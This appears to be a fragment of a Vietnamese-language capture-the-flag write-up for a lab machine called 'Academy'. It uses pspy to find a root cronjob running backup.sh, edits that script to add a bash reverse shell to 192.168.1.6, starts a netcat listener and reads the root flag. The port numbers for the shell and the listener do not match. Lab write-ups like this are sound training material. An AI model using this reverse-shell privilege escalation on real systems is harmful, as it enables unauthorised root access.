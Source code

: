 2022-08-02 05:04:05 (64.8 MB/s) - ‘pspy64’ saved [3078592/3078592]

grimmie@academy:~$ chmod +x pspy64

run pspy

2022/08/02 05:07:01 CMD: UID=0    PID=14166  | /bin/sh -c /home/grimmie/backup.sh

2022/08/02 05:07:01 CMD: UID=0    PID=14167  | /bin/bash /home/grimmie/backup.sh

file backup được tạo cronjob chạy hàng phút, đồng thời thay với sh

bây giờ sửa file backup để tạo reverse shell:

bash -i >& /dev/tcp/192.168.1.6/8080

trên máy tấn công:

nc -nvlp 8081

root@academy:~#

cat flag.txt

Congratz you rooted this box !

Looks like this CMS isn't so secure...

I hope you enjoyed it.

If you had any issue please let us know in the course discord.

